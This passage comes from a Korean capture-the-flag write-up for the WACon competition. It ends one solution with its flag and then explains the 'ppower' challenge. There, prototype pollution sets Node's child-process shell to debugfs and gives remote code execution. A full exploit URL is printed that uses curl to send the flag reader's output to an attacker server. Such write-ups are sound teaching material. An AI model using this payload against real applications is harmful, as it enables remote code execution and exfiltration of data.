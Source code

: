 ```python
  print(res.text)

```

__Flag__ : `WACon{1s_this_w3b_0r_m1sc_IDK}`



## ppower

Prototype Pollution을 통해서 execSync, spawnSync의 option을 적절히 조절할 수 있다.

여기서 shell을 변경함으로 임의 명령이 실행이 가능하고, input, stdio를 통해서 해당 명령에 stdin형태로 명령을 넣어줄 수 있다.

shell = debugfs, input = ![임의명령], stdio=pipe를 줘서 RCE가 가능하다.

```
http://175.123.252.136:8080/answer?constructor[prototype][flagForEveryone][flagForEveryone]=1&constructor[prototype][shell]=/sbin/debugfs&constructor[prototype][stdio]=pipe&constructor[prototype][input]=!curl%20http://MY_SERVER/$(/realreadflag%20flagflagflag)%0aq%0a&answer=It%27s-none-of-your-business
```

__Flag__ : `WACon{node**pp=rce/*:P*/}`
